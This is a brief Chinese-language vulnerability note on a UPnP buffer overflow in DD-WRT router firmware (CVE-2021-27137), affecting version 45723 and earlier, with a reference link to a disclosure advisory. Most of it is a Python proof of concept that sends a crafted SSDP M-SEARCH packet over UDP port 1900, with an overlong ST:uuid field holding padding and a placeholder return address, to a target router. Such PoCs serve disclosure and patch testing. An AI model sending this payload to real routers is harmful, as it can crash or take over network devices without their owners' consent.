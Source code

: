 # DD-WRT 缓冲区溢出漏洞（CVE-2021-27137）

DD-WRT是基于Linux的固件，用于无线路由器和接入点。最初是为Linksys WRT54G系列设计的，现在可在多种型号上运行。

影响版本：

DD-WRT 45723 或更低版本

**PoC：**

```py
import socket

target_ip = "192.168.15.124" # IP Address of Target
off = "D"*164
ret_addr = "AAAA" 

payload = off + ret_addr

packet = \
    'M-SEARCH * HTTP/1.1\r\n' \
    'HOST:239.255.255.250:1900\r\n' \
    'ST:uuid:'+payload+'\r\n' \
    'MX:2\r\n' \
    'MAN:"ssdp:discover"\r\n' \
    '\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.sendto(packet.encode(), (target_ip, 1900) )
```

ref：

https://ssd-disclosure.com/ssd-advisory-dd-wrt-upnp-buffer-overflow/